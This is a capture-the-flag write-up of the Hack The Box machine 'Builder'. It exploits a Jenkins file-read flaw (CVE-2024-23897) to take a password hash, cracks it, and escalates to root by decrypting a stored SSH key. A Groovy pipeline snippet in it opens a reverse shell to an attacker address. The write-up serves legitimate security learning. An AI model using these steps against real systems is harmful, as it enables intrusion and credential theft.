# Builder Writeup - by Thammanant Thamtaranon

**Builder** is a **Medium**-difficulty Linux machine hosted on Hack The Box.

---

## Reconnaissance
- I began with a full TCP port scan to identify open services and the operating system.
  
- The scan revealed two primary open ports:
  - **22/tcp** — OpenSSH 8.9p1
  - **8080/tcp** — Jetty 10.0.18 hosting **Jenkins**

---

## Scanning & Enumeration
- I navigated to port 8080 in the browser and confirmed it was running **Jenkins 2.441**.
  
- I researched vulnerabilities for this specific version and identified **CVE-2024-23897**. This is a critical arbitrary file read vulnerability that abuses the Jenkins CLI's argument parsing feature.
  

---

## Exploitation
- To exploit the vulnerability, I downloaded the `jenkins-cli.jar` executable directly from the server. I verified the arbitrary file read by targeting sensitive files on the system, such as `/etc/passwd`.
  
- Using the CLI tool, I enumerated the user directory structure by reading `/var/jenkins_home/users/users.xml`.
  
- This revealed a specific user folder for **Jennifer**. I proceeded to read her configuration file (`config.xml`) to look for credentials.
  
- The output contained Jennifer's bcrypt password hash.
  
- I saved this hash to a file and used **John the Ripper** with the `rockyou.txt` wordlist. The password was successfully cracked as `princess`.
  
- With the valid credentials `jennifer` : `princess`, I accessed the Jenkins login page.
  
- I successfully logged into the dashboard.
  
- To achieve Remote Code Execution (RCE), I created a new **Pipeline** job. In the pipeline script definition, I injected a Groovy script to spawn a reverse shell.
  ```groovy
  pipeline {
      agent any
      stages {
          stage('RCE') {
              steps {
                  sh 'bash -c "bash -i >& /dev/tcp/10.10.14.x/4444 0>&1"'
              }
          }
      }
  }
  ```
  
- I started a netcat listener on my attack machine and triggered the build ("Build Now").
- The build executed successfully, and I caught the reverse shell as the jenkins user.
  

## Privilege Escalation
- I began enumerating the file system and found a `credentials.xml` file in `/var/jenkins_home/`. This file contained an encrypted **SSH private key** for the **root** user.
  
- Since I had access to the Jenkins script console (via the pipeline), I could use Jenkins' internal decryption method (`hudson.util.Secret.decrypt`) to recover the plaintext key. I created a new pipeline job for this purpose.
  
- Because the script runs in a sandbox, I had to manually approve the signature in the **"In-process Script Approval"** section of the dashboard.
  
- After approval, I ran the build again. The console output revealed the decrypted **RSA private key**.
  
- I saved the key to a file named `id_rsa` and set the correct permissions (`chmod 600`).
- Finally, I used the key to SSH into the machine as **root** and captured the root flag.
  
